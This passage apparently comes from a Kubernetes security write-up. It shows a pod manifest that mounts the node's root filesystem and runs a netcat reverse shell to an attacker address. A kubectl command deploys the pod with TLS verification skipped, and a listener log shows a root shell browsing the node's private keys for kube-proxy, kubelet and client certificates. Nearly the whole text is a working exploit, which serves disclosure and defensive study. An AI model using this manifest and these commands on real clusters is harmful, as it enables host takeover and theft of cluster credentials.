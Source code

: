 The following pod manifest, `node-access.yaml`, mounts the host node's filesystem to `/host` in a container that spawns a reverse shell back to an attacker:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: test
spec:
  containers:
  - name: busybox
    image: busybox:1.29.2
    command: ["/bin/sh"]
    args: ["-c", "nc 10.4.4.4 4444 -e /bin/sh"]
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
```

This can be deployed with the following command:

```
$ kubectl --insecure-skip-tls-verify=true  \
          --server="https://master:6443"   \
          --token="<TOKEN>"                \
          create -f node-access.yaml
```

While not technically RCE on the node, a remote containerized shell with access to the filesystem will in many cases lead to RCE.

Access to the host filesystem could also be used to read private keys used to communicate with other Kubernetes components:

```
$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.4.4.4] from node [10.1.2.3] 34746
# id
uid=0(root) gid=0(root) groups=10(wheel)
# ls -lah /host/etc/pki
total 32
drwxr-xr-x    1 root     root         256 May 26  2018 .
drwxr-xr-x    1 root     root         302 May 26  2018 ..
-rw-r--r--    1 root     root        2.3K May 26  2018 kube-proxy.crt
-r--r--r--    1 root     root        3.2K May 26  2018 kube-proxy.key
-rw-r--r--    1 root     root        2.3K May 26  2018 kubectl-client-cert.crt
-r--r--r--    1 root     root        3.2K May 26  2018 kubectl-client-cert.key
-rw-r--r--    1 root     root        2.3K May 26  2018 kubelet.crt
-r--r--r--    1 root     root        3.2K May 26  2018 kubelet.key
-rw-r--r--    1 root     root        2.3K May 26  2018 minion.crt
-r--r--r--    1 root     root        3.2K May 26  2018 minion.key
drwx------    1 root     root         210 May 26  2018 private
drwxr-xr-x    1 root     root          14 Oct 23  2017 trust
```
